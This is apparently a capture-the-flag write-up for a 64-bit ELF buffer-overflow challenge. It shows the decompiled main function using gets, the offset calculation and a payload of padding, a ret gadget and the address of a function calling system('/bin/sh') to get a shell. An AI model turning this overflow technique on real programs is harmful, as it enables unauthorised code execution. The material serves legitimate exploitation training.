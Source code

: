 # PWN

## 👻 BOF (solved)

-   Score: 100, Solves: 189

### Problem

[bof](bof/bof)

### Solution

1.  `file bof`

    ```shell
    ➜ file bof
    bof: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=378b751f1056b9026ef636c05439f4550feb8154, stripped
    ```

2.  `checksec` ➜ **disabled CANARY**

    ![bof-checksec](../img/bof-checksec.png)

3.  `ida pro` -> `fn + F5` main

    ```c
    __int64 __fastcall main(__int64 a1, char **a2, char **a3)
    {
      char v4; // [rsp+0h] [rbp-30h]
    
      sub_40069A(a1, a2, a3);
      puts(&s);
      gets(&v4);
      return 0LL;
    }
    ```

    $\because$ `gets`

    $\therefore$ buffer overflow

4.  distance to `old rbp = 0x30` (not exactly the length of char buffer)

     $\therefore$  `payload = nonsense * 0x30 + (8 bytes to overwrite rbp) + (target return address)`

    | ![](../img/bof-main.png) | ![](../img/bof-main2.png) |
    | -------- | -------- |

5.  find `target return address`

    Target: `system("\bin\sh")`

    ![bof-system](/Users/mindy/Desktop/AIS3-2020-pre-exam/img/bof-system.png)

    `return to 0x400687` $\because$ function sub_400687 call `system("\bin\sh")`

    $\therefore$  `payload = ‘A’ * (0x30 + 8) + 0x400687`

6.  use `gdb` to test the payload

    ![bof-gdb](/Users/mindy/Desktop/AIS3-2020-pre-exam/img/bof-gdb.png)

    Crack because the `rsp` value was not 16 byte padded (hex representation didn’t end with `0`)

    $\therefore$  `payload = ‘A’ * (0x30 + 8) + ret + 0x400687`

7.  Get shell.

    ➜ find flag

    ![bof-final](../img/bof-final.png)

